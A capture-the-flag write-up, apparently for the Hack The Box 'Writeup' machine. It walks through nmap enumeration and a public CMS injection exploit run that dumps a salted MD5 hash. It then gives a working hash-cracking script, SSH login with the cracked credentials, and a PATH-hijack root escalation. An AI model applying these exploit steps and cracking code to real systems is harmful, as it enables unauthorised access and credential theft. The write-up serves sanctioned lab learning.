 # Writeup
>Author : Xyan1d3
>Date : 16th July 2021
>IP : 10.10.10.138
>OS : Linux
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Fri Jul 16 02:17:22 2021 as: nmap -sC -sV -v -oN nmap/writeup 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up (0.065s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration
We visit the website and find out a site with some ascii art.
![[Pasted image 20210716025638.png]]

We start enumerating the `robots.txt` and find out that we have a hidden directory.
![[Pasted image 20210716025821.png]]

```python
┌─[Magisk@Xyan1d3]─[10.10.14.4]─[~/htb/writeup]
└──╼ # python2 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

We now create an `python` script to crack the `MD5` hash which has a salt in the begining.
The Hash format is : `MD5(salt + password)`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.7]─[~/htb/writeup]
└──╼ # cat crack.py 
import hashlib
def crack_password():
    salt = "5a599ef579066807"
    wordlist = "/usr/share/wordlists/rockyou.txt"
    password = "62def4866937f08cc13bab43bb14e6f7"
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "").replace("\r", "")
        print(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            print("[+] password cracked : "+line)
            exit()
            break
    dict.close()
crack_password()
```

On running the `crack.py` we get the credential.
```python
[+] password cracked : raykayjay9
```

# Initial FootHold as jkr
We could use these credentials to SSH into the box.
|Username|Password|
|--|--|
|jkr|raykayjay9|

```python
┌─[Magisk@Xyan1d3]─[10.10.14.7]─[~/htb/writeup]
└──╼ # ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 15 18:11:29 2021 from 10.10.14.11
jkr@writeup:~$ whoami
jkr
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

# Root Escalation
We run `pspy` on the box and SSH into the box at the same time and find out an odd thing that it sets the path and then runs the `run-parts`.
![[Pasted image 20210716131708.png]]

Now, We may put a `run-parts` in some PATH at the begining which would be an `bash` script in `/bin/sbin`.
![[Pasted image 20210716132251.png]]

We can now again `SSH` into the box to trigger the exploit.